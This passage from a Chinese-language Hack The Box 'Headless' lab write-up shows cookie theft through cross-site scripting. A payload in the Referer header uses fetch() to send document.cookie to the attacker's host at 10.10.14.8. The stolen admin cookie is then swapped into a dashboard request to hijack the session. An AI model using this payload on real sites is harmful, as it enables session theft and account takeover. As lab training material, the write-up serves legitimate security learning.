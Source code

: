 
接下来尝试获取Cookie。  
kali终端开启http服务。burp重放一下之前的请求，Referer头使用payload：`<img src=x onerror=fetch('http://10.10.14.8/?c='+document.cookie);>`——让WAF的警告界面加载不可用图片，触发`onerror`使其访问kali主机，并在URL中带上`document.cookie`参数——我们就可以在kali终端得知Cookie。  
可以发现admin的Cookie为：`ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0`。

![HTB-Headless-document_cookie](./evidence-img/HTB-Headless-document_cookie.png){ width='800' }


## Initial Access

### Cookie/会话固定攻击

再次访问`http://10.10.11.8:5000/dashboard`并拦截请求，可以发现Cookie值目前还是我们之前观察到的固定值。将这个Cookie值改为上面说的`ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0`

![HTB-Headless-dashboard](./evidence-img/HTB-Headless-dashboard.png){ width='600' }
